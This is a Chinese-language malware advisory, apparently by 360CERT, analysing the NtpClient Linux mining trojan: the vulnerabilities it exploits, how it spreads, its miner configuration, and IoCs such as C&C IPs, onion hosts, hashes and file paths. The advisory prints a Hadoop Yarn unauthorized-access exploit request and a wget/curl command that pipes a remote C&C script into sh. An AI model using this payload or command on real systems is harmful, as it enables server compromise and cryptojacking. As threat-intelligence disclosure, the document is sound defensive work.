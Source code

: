 ```yaml
---
id: 59fb5cdc6fe68ddab7b24b975d97694b
title: Linux挖矿木马NtpClient事件分析
tags: 
  - 安全资讯
  - 360CERT
---
```


# Linux挖矿木马NtpClient事件分析

 0x01   事件简述
------------


360安全大脑监测发现最新的NtpClient挖矿木马攻击。该木马利用Drupal、WebLogic、Confluence、MongoDB等众多流行框架漏洞进行传播，入侵机器后占用系统资源进行挖矿，严重影响主机上的正常业务运转。由于其最终投递的木马文件名为ntpclient，遂将其命名为NtpClient挖矿木马。

 0x02   分析
----------

分析样本后发现，NtpClient挖矿木马使用到了以下11种漏洞利用方式进行入侵攻击：



| **漏洞编号** | **漏洞名称** |
| --- | --- |
| CVE-2018-7600 | Drupal远程代码执行漏洞 |
| CVE-2020-14882 | WebLogic远程代码执行漏洞 |
| CVE-2019-3396 | Confluence远程代码执行漏洞 |
| CVE-2019-10758 | MongoDB mongo-express远程代码执行漏洞 |
| CVE-2017-11610 | Supervisord远程命令执行漏洞 |
| N/A | XXL-JOB executor未授权访问漏洞 |
| N/A | Hadoop Yarn REST API未授权漏洞 |
| N/A | 未知，疑似2021.07.06披露的Visual Tools DVR VX16 4.2.28.0命令注入漏洞 |
| CVE-2020-28870 | InoERP 0.7.2远程代码执行漏洞 |
| CVE-2020-35729 | Klog Server 2.4.1命令注入漏洞 |
| CVE-2019-12725 | Zeroshell操作系统命令注入漏洞 |

以Hadoop Yarn REST API未授权漏洞为例，该漏洞利用的恶意payload如下：


```
POST /ws/v1/cluster/apps HTTP/1.1
Host: %s:%d
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.26.0
Content-Type: application/json
Content-Length: %d
{"am-container-spec": {"commands": {"command": "%s"}}, "application-id": "app\_id", "application-type": "YARN", "application-name": "get-shell"}

```
成功利用漏洞后执行恶意命令：


```
wget http://185.243.56.167/yarn -O- |sh;curl http://185.243.56.167/yarn |sh

```
该命令从C&C下拉恶意脚本yarn并执行。yarn恶意脚本首先进行了一些系统的清理工作，例如清除crontab定时任务，删除.profile、.bashrc文件中的wget、curl恶意下载任务，清理CPU占用超过55%以及其他一些可疑进程等等。

![](https://p403.ssl.qhimgs4.com/t01ca0c784f65e03bd5.png)主机环境清理完毕后从C&C拉取ntpclient木马并在执行后自删除。

![](https://p403.ssl.qhimgs4.com/t017a0e47691acba1d9.png)其余漏洞的攻击方式大同小异，均为成功利用后下载对应的恶意脚本文件并执行，脚本在清理系统环境后拉取木马文件，实现完整的入侵流程。NtpClient挖矿木马包含的恶意sh脚本列表如下：


```
http://185.243.56.167/drupal2
http://185.243.56.167/web
http://185.243.56.167/wid
http://185.243.56.167/mongo
http://185.243.56.167/rpc
http://185.243.56.167/job
http://185.243.56.167/yarn
http://185.243.56.167/dl
http://185.243.56.167/zero

```
ntpclient木马ELF样本中除了清理/etc/ld.so.preload文件外，也会尝试清理竞品挖矿木马和一些安全软件，以确保自己能独占系统资源。

![](https://p403.ssl.qhimgs4.com/t01ab15635326a04d06.png)![](https://p403.ssl.qhimgs4.com/t016ef42fc5ef3afbd7.png)样本中包含了编译于2021.9.23号的XMRig开源矿机程序：

![](https://p403.ssl.qhimgs4.com/t01389651ee2493d1e1.png)矿池和钱包地址分别为

pool.hashvault.pro:80

4At34d6VnRdEHZAEMuXeYFRTnneXXYheqX2PrJ8PXpi6KC1YnTXNyWXLYzRK52jWEcAtQAMpeLhw3P1AHgnBGNy22YtJtF3

根据已连接到矿池的矿工数来看，目前的感染量为151，正处于初期发展阶段。从算力趋势图推测可知，NtpClient挖矿木马从9.24号开始活跃，在9.28~9.29号间有了一次较大的增大。

![](https://p403.ssl.qhimgs4.com/t0109c7a4018a6d3a7b.png) 0x03   IoCs:
-------------

**C&C:**

http://185.243.56.167/

toxj6876sr7074hykwejfs.onion

y7myrhlz4hzpmlmt.onion

**MD5:**



| **md5** | **类型** |
| --- | --- |
| 8d6cbc8756ffeb3c6546660dd17b75a8 | elf |
| 27e307f8ce9d320be0de5f4ad011403c | elf |
| 33f4e3f575995b2adb2b418377eb6943 | elf |
| 4220847c297c628e72c7a999e664a765 | elf |
| f96cde4c2ceb1a31fde866d9eae4064a | elf |
| f581c2a44f48515d16e6aac842e80461 | elf |
| fe4f7eb659d98b8cf241bf8e8476fbf0 | elf |
| bcbbcc97a91cae59e9c05bb4378c4645 | shell |
| f4cec4950cbb56ebeb35f84999581b10 | shell |
| f689fc0cff0bf97a0fcf3850ed5fe9cd | shell |
| 31674cd832540031a64dcd11df002e1d | shell |
| 6ff6a2b73cf2f0f3a206bf23cada5a53 | shell |
| 29feb2ccf71512edc62d857056949a26 | shell |
| 108a87ae54ae31abc87cbfe73d87d78d | shell |
| cfef804c1c9ed2f7c6e8ee69fa0c83d3 | shell |
| 5e9833571b5883217b1105e5460da35d | shell |
| 4e97bd1559b06a07b9aebcea18320f80 | shell |
| b23aa750f6b02250eacc991988cb641c | shell |
| 8e8943cd6f96ff70b3d62f09b7636958 | shell |

**矿池：**

pool.hashvault.pro:80

**钱包地址：**

4At34d6VnRdEHZAEMuXeYFRTnneXXYheqX2PrJ8PXpi6KC1YnTXNyWXLYzRK52jWEcAtQAMpeLhw3P1AHgnBGNy22YtJtF3

**文件路径：**


```
/tmp/.a
/var/tmp/.a
/run/shm/a
/dev/.a
/dev/shm/.a
/run/user/1000/ntpclient
/run/user/1000/Mozz

```
